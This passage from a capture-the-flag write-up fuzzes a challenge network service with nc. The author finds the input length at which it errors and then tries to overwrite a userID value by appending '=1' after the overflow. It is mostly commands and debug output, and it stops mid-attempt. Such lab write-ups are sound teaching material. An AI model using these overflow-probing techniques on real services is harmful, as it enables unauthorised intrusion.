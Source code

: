 Interesting... We get a different error this time. Let's walk it back to try to figure out when this error occurs.

```bash
$ python -c "print('#'*2250)" | nc cfta-bx02.allyourbases.co 8013
...
$ python -c "print('#'*2000)" | nc cfta-bx02.allyourbases.co 8013
...
$ python -c "print('#'*2006)" | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Input length too large.
ERROR: Expected userID Variable of 1.
DEBUG: Waiting 100ms
^C
$ python -c "print('#'*2005)" | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
```

Looks like this error occurs when the length is greater than 2005. Now that we've found when the error occurs, let's try to figure out how to avoid the error. It says it's expecting a userID of 1, so let's try sending that:

```python
$ python -c "print('#'*2006+'=1')" | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
```